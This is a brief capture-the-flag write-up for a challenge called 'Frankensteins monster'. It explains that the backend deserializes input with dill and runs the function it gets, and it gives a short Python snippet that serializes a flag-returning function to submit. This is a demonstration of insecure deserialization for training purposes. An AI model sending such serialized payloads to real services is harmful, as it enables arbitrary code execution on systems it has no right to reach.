 ># Frankensteins monster
>
>Frankensteins monster is angry with you. 
>You can try run. You can try to hide. 
>What you can't do, is run forever. 
>The monster never tires, never rests and will always outlast you.
>Your only choice is to distract the monster. 
>
>Luckily for you, Dr. Frankenstein has [contingencies](http://>fire-breathing-unicorn.td.org.uit.no:56733/). 

The backend tries to deserialize the input string into a python object.
This is done using dill so functions can be input and executed.
The output of the executed function is returned.

To solve create a function that returns flag and serialize it with dill. 
```py
import dill

def print_flag():
    return flag

print(dill.dumps(print_flag))
```

Then this can either be posted to the URL or input into the input field.
